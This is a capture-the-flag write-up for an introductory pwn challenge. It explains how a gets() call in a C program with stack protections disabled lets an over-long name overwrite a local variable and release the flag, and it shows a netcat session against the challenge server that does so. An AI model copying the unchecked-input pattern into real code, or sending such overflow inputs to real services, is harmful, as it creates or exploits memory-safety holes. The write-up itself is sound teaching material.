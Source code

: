 Notice that the program will read the flag from a file if we somehow manage to break from the `while(1)` loop.

We also notice that if `x!=0`, the code will the "infinite" loop:

```C
int main() {
    while(1) {
        int x = 0;
        char name[32]="";
        printf("What's your name? ");

        // ...
        
        gets(name);    

        if(x) {
            break; // EXIT the
        } 

        // ...
    }

    // read flag from file
    // ...
    
    return 0;
}
```

But how can we set x to something different from 0 **in a compiled program**?

When we compile this using `gcc main.c -o main -std=c99 -fno-stack-protector -z execstack -no-pie`, we actually get a hint:

```bash
main.c: In function ‘main’:
main.c:13:9: warning: ‘gets’ is deprecated [-Wdeprecated-declarations]
   13 |         gets(name);
      |         ^~~~
In file included from main.c:4:
/usr/include/stdio.h:667:14: note: declared here
  667 | extern char *gets (char *__s) __wur __attribute_deprecated__;
      |              ^~~~
/usr/bin/ld: /tmp/ccs4hMd1.o: in function `main':
main.c:(.text+0x5e): warning: the `gets' function is dangerous and should not be used.
```

So the `gets()` function is considered dangerous. What does that mean?

If we search the internet, we find out that `gets` is unsafe since it doesn't check the input length when saving it to a buffer. In other words, it can copy, say, a 100 character long string in a 35 bytes array (100 and 35 are arbitrary number, anything similar proves the point). This is also known as a **Buffer Overflow**, since the remaining `100-35=65 bytes` override other variables in our program's memory, including `x`.

So, if we provide a string long enough to override x (but short enough to not override other important variables that will crash the program), we'll successfully retrieve the flag:

```bash
vianuhack@computer~$ nc 164.92.224.165 1337
What's your name? AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Hello, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
What's your name? AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Hello, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
What's your name? AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Congrats! You bypassed it!
Here's your flag: VianuCTF{PWN3D_TH1S_INTRO_B0F!}

vianuhack@computer~$ 
```

This is why it's always important to address out-of-bounds array issues (signal 11) when coding in C/C++. While `gets()` is deprecated, there are many other places where issues like this can arise. 
